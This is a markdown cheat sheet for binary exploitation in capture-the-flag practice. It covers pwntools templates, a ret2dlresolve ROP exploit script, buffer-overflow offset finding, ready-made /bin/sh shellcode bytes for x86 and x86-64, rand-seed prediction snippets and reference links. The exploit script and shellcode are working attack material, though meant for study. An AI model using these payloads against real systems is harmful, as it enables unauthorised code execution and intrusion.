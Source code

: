 ### pwntools
Generate pwntools template exploit script
```c
pwn template --quiet --host "hostname" --port "portnumber" ./binary > exploit.py
```
gdb attach
```python
gdb.attach(io, gdbscript=gdbscript)
```

# Disassemble
```shell
objdump -M intel -d binary
```

# Check for ALSR
```c
ldd binary
```

#### ret2dlresolve
https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve/exploitation
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = elf.process()
rop = ROP(elf)

# create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop.raw('A' * 76)
rop.read(0, dlresolve.data_addr) # read to where we want to write the fake structures
rop.ret2dlresolve(dlresolve)     # call .plt and dl-resolve() with the correct, calculated reloc_offset

log.info(rop.dump())

p.sendline(rop.chain())
p.sendline(dlresolve.payload)    # now the read is called and we pass all the relevant structures in

p.interactive()
```


# Buffer overflow


### Finding offset
```
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
```

### Callstack
https://zhu45.org/posts/2017/Jul/30/understanding-how-function-call-works/

### Symbols-table (Finds addresses of functions)
```shell
objdump -t PROGRAM
```

### Shellcode
https://shell-storm.org/shellcode/index.html
https://www.exploit-db.com/

Jump to shellcode: 
https://www.abatchy.com/2017/05/jumping-to-shellcode.html

Creating shellcode:
https://hackmd.io/@5wGZ4MZ5RNqqVEVaLzb0rA/BJikOPqw5

Ex:
```c
// Linux/x86 execve /bin/sh shellcode 23 bytes
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

// Linux/x86 execve /bin/sh shellcode 21 bytes
shellcode = b"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

// Linux/x86-64 Execute /bin/sh - 27 bytes
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

// Linux/x86-64 exec /bin/sh alphanumerical
shellcode = "XXj0TYX45Pk13VX40473At1At1qu1qv1qwHcyt14yH34yhj5XVX1FK1FSH3FOPTj0X40PP4u4NZ4jWSEW18EF0V"
```

To run:
```bash
$ (python exploit.py; cat) | ./vuln_program
```

# Syscalls
https://syscall.sh/


# Useful snippets
### Running C-Functions in Python
```python
from ctypes import CDLL

libc = CDLL("libc.so.6")  
libc.srand(libc.time(0))
output = libc.rand() % 0xf
```

### Get "random" value based on time-seed
```c
#include <time.h>
#include <stdio.h>
#include <stdlib.h>

int main() {
    int t = time(0);
    srand(t);
    printf("%d\n", rand() & 0xf);
}
```

### Get output from Linux command in Python
```python
import subprocess

output = subprocess.check_output("./vuln")
```




#### 64 bit function arguments order 
In 64 bit, the arguments are in registers, 32 bit is on the stack.
Arguments are placed before the function.
RAX is the return value
```c
RDI, RSI, RDX, RCX, R8, R9
```

#### Finding functions in libc
```c
readelf -s libc6_2.33.so | grep system
```


# Assembly
```asm
.global _start

_start:
.intel_syntax noprefix
```
```
gcc -nostdlib -static level1.s -o level1-elf
objcopy --dump-section .text=level1 level1-elf
```




# Kernel pwn
https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/


# Notes from the web

https://ir0nstone.gitbook.io/notes/
https://ropemporium.com/guide.html
https://filippo.io/linux-syscall-table/
https://ctf.samsongama.com/ctf/index.html
https://www.pwnthebox.net/reverse/engineering/and/binary/exploitation/series/2019/03/30/return-oriented-programming-part2.html syscalls
https://github.com/0xroman1/Scuffed_Low_Level_Stash/blob/master/README.md


https://cs61.seas.harvard.edu/site/2018/ SYKT BRA
### Advanced ROP
https://tc.gts3.org/cs6265/2019/tut/tut06-02-advrop.html

